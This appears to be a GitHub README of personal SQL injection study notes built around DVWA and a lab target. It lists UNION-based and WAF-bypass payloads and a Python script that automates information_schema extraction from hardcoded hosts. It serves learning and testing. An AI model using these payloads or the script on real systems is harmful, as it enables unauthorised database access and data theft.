

# SQLi-sum-up
这个仓库是自己学习工程中用来复盘的，因为切换输入法不方便，基本采用英语 来写，看官朋友们遇到不清楚的单词请自行查阅，感谢观看！ 另外，为了让自己方便观看，将采用倒序编写，最新的内容会在最前面 ```
# SQL injection（注入）
```
本篇文章是自己学习工程中用来复盘的，因为切换输入法不方便，基本采用英语
来写，看官朋友们遇到不清楚的单词请自行查阅，感谢观看！
另外，为了让自己方便观看，将采用倒序编写，最新的内容会在最前面
```
## Practice

### DVWA SQLi
> http://43.247.91.228:81/login.php
1. Vulnerability: SQL Injection
- low 
	omited
- middle
	1. get the number of columns, whose payload is:
		> 1 order by 2--
	2. find out  by using UNION SELECT 1,2,3,4...n, 
		and  the payload_id is:
		> 1 UNION SELECT 1,2&Submit=Submit#
		
	3. Fetch data, considering the structure of a classic Mysql_DB:
	
	
	
	Basic form of payloads should be like 
	
	> ?id=1/**/union/**/SELECT/**/table_schema,table_name/**/FROM/**/information_schema.tables/**/limit/**/2,3
	
	
	by using the tricks below you can gradually form the entire TABLE_NAME and COLUMN_NAME
	
	*** Addtionally, i should emphasize that '/**/' is a sort of replacements of space(' '), which sometimes is able to bypass WAF ***
	
	4. In the 3rd part, it's quite dull and of *LOW efficiency* to fetch data little by little, so i decide to make it AUTOMATIC:
- Python:

> before using, the injection param should be put at the TAIL of url, which is 
> from *?id=1%20UNION%20SELECT%201,user()&Submit=Submit#*  to  *?Submit=Submit&id=1%20UNION%20SELECT%201,user()* 

```
# coding:utf-8
# author:UncleHenry
import requests
from bs4 import BeautifulSoup
import regex as re


def getContent(xurl):
	'''
	@IN:SOUP soup
	@OUT:STR extracted content

	
	#print('soup:'+str(soup))
	'''
	HEADER = {
		'Connection': 'keep-alive',
		'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36"
	}
	SQLI_user_URL = 'http://47.96.138.65:45787/?id=1-1/**/union/**/select/**/database(),1,version(),user()'
	if xurl != None:
		SQLI_user_URL = xurl
		
	session = requests.Session()
	s0 = session.get(SQLI_user_URL)
	soup = BeautifulSoup(s0.content, 'html.parser')
	#可以用print(soup.find_all('center')[len(soup.find_all('center'))-1]) #找到最后一个center，比较特殊
	#print(soup.prettify)
	#用正则，取出最后一个<center>标签中的内容
	m = re.findall(r'<center>(.+?)</center>',str(soup))
	return(m[len(m)-1])
	
	
	
def fuzz_Url(xbasic_url):
	'''
	@IN: str BASIC_URL, like 
	'?id=1-1/**/union/**/select/**/database(),1,version(),'
	@OUT: str FUZZING_URL, like	
	'union/**/SELECT/**/table_schema/**/FROM/**/information_schema.tables'
	return a completed fuzzing URL
	'''
	#fuzz_ITEM = ['database','@@version','user()']
	fuzz_ITEM = ['table_schema']
	fuzz_RANGE = ['information_schema.tables','information_schema.columns']
	return(xbasic_url+' '+fuzz_ITEM[0]+' '+'from'+' '+fuzz_RANGE[0])


def limit_to_fetch_all(n):
	'''
	递归调用
	@IN：int n: STARTS AT 0
	
	@OUT:str: limit n,n+1 --
	'''
	limit = ' limit '+str(n)+','+str(n+1)+' --'
	return(limit)
	#return(' limit '+str(n)+','+str(n+1)+' --')
	# limit n,n+1
	
	
def trim(xstr):
	'''
	bypass waf
	could be DIY
	'''
	return(xstr.replace(" ", "/**/"))


if __name__ == "__main__":

	BASIC_URL = 'http://47.96.138.65:45787/?id=1-1/**/union/**/select/**/database(),1,version(),'
	#print(getContent(visitSite()))
	print("----OK, let's start----")
	for i in range(20):
		xurl = trim(fuzz_Url(BASIC_URL)+limit_to_fetch_all(i))
		try:
			res = getContent(xurl)
			print(res)
		
		except:
			print("----That's all----")
			break
			


	
	
	


```
效果如下：


- 编程心得
	1. python regex
		- findall(r[pattern],String) //extract from string
		- match(r[pattern],String) //match string
	

	
## Reasons of sqli
1. user-provided params which directly connect to db *WITHOUT* filter
	> $_GET
	> $_POST
	> $_REQUEST	
	
2. $result should be seen outside
	> echo($query)
	> echo...


	
